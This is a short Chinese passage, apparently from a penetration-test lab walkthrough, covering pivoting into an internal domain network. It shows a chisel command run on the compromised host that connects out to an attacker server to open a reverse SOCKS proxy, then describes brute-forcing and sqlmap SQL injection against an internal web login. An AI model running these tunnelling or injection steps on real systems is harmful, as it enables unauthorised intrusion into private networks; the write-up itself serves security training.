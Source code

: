 靶机作为客户端

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[![](assets/1705540441-1b2665a22b661d87ed1459a2aa5435ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175156-e27a5518-b454-1.png)

## 攻击域成员一 (Web 服务)

我们发现`172.22.6.38`具备 Web 服务，设置好代理好访问此网站

[![](assets/1705540441-4120853feecf8665f0bd220a19c10d9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175207-e8c4032e-b454-1.png)

发现只有一个登录接口，尝试密码爆破后无果，因此使用 bp 抓包放入 sqlmap 尝试 SQL 注入，burp 需要在用户配置处设置下代理
